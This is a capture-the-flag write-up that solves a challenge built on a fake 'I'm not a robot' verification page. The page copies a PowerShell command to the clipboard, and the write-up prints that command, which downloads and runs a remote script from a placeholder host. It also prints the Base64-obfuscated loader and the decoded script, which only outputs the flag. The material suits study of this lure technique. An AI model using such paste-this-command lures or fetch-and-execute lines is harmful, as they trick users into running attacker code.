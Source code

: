 # Solution

1. The website has a `I'm not a robot` button.
2. Click on it and instructions will be given.
3. This will be added to the device's clipboard.
```ps1
cmd /c PowerShell.exe "iex ((New-Object System.Net.WebClient).DownloadString('http://<web-hostname>/verify.ps1'))" # 'FREE ROADBLOACKERS VERIFICATION ID: 21402'
```

4. After going to the `/verify.ps1`, you will see this code.
```ps1
InVOKe-eXpREsSiOn ([SySTem.TeXt.eNCoDInG]::UtF8.gEtSTrIng([SyStEM.COnVeRT]::FrOmBaSe64StrIng('aWYgKCAncHpsJyAtZXEgJ2x6eCcpIHsgV3JpdGUtT3V0cHV0ICdTSUcyNHtuMF9mUkVlX3JPQlV4X3JpUH0nIH0gZWxzZSB7IFdyaXRlLU91dHB1dCAnRXJyb3IgT2NjdXJlZCBXaGlsZSBEb2luZyBWZXJpZmljYXRpb24uIFBsZWFzZSB0cnkgYWdhaW4gbGF0ZXIuJyB9OyBXcml0ZS1PdXRwdXQgJ1ByZXNzIGFueSBrZXkgdG8gY29udGludWUuLi4nOyAkbnVsbCA9ICRIb3N0LlVJLlJhd1VJLlJlYWRLZXkoJ05vRWNobyxJbmNsdWRlS2V5RG93bicp')))
```

5. There is a Base64 string inside. Convert the Base64 to string. There you will find your flag.
```ps1
if ( 'pzl' -eq 'lzx') { Write-Output 'SIG24{n0_fREe_rOBUx_riP}' } else { Write-Output 'Error Occured While Doing Verification. Please try again later.' }; Write-Output 'Press any key to continue...'; $null = $Host.UI.RawUI.ReadKey('NoEcho,IncludeKeyDown')
```